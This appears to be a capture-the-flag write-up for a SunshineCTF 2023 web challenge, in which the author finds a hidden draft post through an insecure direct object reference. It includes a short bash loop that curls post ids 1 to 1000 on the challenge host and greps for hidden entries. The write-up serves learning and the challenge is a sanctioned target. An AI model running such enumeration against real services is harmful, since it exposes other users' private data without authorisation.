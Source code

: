 # Chall Description
A few robots got together and started a blog! It's full of posts that make absolutely no sense, but a little birdie told me that one of them left a secret in their drafts. Can you find it?
https://beepboop.web.2023.sunshinectf.games

# Write up
Using burp to browse to the address given reveals a request to `/posts`. Checking the source shows that this is json file that's contains all blog posts and is being used to fill the main page:

{"posts":[{"post: *text*, "post_url":*url*,"user":*username*}...]}

Opening a single blog post reveals a second request to `/post/*id*`, that gets a different json file:
{"hidden":*boolean*,"post":*text*,"user":*username*}

Following this, we have an IDOR vulnerability, and can make a simple script to iterate over each post id and check which post has `hidden: true` set.

```
#!/bin/bash
#

for i in {1..1000}
do
        curl -k "https://beepboop.web.2023.sunshinectf.games/post/$i/" | grep '"hidden":true'
done```

And we have the flag.